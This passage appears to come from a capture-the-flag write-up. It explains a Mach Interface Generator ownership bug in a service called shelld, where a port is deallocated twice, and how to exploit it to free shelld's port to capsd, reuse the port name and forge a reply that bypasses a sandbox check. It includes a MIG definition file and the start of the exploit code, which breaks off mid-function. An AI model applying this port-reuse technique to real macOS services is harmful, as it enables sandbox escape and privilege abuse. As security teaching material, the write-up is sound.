 Found it? No?

Well, this code does not respect the MIG ownership rules. They are as follows:

*If a MIG method returns KERN\_SUCCESS it means that the method took ownership of \*all\* the arguments passed to it.
If a MIG method returns an error code, then it took ownership of \*none\* of the arguments passed to it.*

*(*[source](https://bugs.chromium.org/p/project-zero/issues/detail?id=1417)*)*

*
*

What this code however does is that if the passed-in session is invalid, it deallocates the passed-in listener port which we got from the client. It then returns KERN\_FAILURE.

MIG now assumes, because the function returned an error, that there is still a reference attached to the listener port and will deallocate it again.

Therefore, two references to the listener port will be dropped, despite that only one was sent with the message. We can now exploit this.

Bypassing the sandbox check in shell\_exec is now possible by sending capsd's port to shelld's register\_completion\_listener RPC function, together with an invalid session name. If we do this often enough, shelld will lose all it's references to capsd, freeing the port. Now we only need to create a session and attach a port to it repeatedly. If we do this often enough, one of our ports will get the same number as shelld's port to capsd. We can then send a fake reply, bypassing the sandbox check!

We should begin by writing a MIG definition file to be able to easliy send messages to shelld. It should look like this:

```c
// Filename: shelld.mig
#include <mach/std_types.defs>

subsystem shelld 133700; // Found that out through IDA...

// Doing this because kernel_version_t is defined as char * and I'm too lazy to define a new type in C ;)
type kernel_version_t = c_string[*:4096]; // Meaning: 0 to 4096 chars. We will need the 4096 later...

routine create_session(shelld: mach_port_t; in session: kernel_version_t);
routine shell_exec(shelld: mach_port_t; in session: kernel_version_t; in cmd: kernel_version_t);
routine register_listener(shelld: mach_port_t; in session: kernel_version_t; listener: mach_port_t);
routine unregister_listener(shelld: mach_port_t; in session: kernel_version_t);
```

Now we can write the code to free shelld's port to capsd

```c
#include <mach/mach.h>
#include <stdlib.h>
#include <stdio.h>
#include "shelld.h"

#define TRIES 10000

extern kern_return_t
bootstrap_look_up(mach_port_t  bootstrap_port,
                  char*        service_name,
                  mach_port_t* service_port);

void deallocPortInShelld(mach_port_t shelld, mach_port_t target) {
    for (int i = 0; i < 100; i++) {
        // Session abcd does not exist
        register_listener(shelld, "abcd", target);
```